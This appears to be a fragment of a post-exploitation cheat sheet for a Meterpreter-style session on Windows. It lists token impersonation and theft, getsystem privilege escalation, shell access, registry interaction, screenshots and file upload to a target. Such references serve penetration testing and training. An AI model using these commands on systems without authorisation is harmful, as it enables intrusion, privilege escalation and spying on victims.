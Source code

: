 - **Impersonate a token:**

```bash
impersonate_token <DOMAIN\\USERNAME>
```

- **Steal a process token:**

```bash
steal_token <pid>
```

- **Stop token impersonation:**

```bash
drop_token
```

- **Attempt privilege escalation to SYSTEM:**

```bash
getsystem
```

- **Drop into an interactive shell:**

```bash
shell
```

- **Run a command interactively:**

```bash
execute -f <cmd.exe> -i
```

- **Revert to the original user:**

```bash
rev2self
```

- **Interact with the registry:**

```bash
reg <command>
```

- **Switch to another desktop:**

```bash
setdesktop <number>
```

- **Capture a screenshot:**

```bash
screenshot
```

- **Upload a file to the target:**

```bash
upload <file>
```
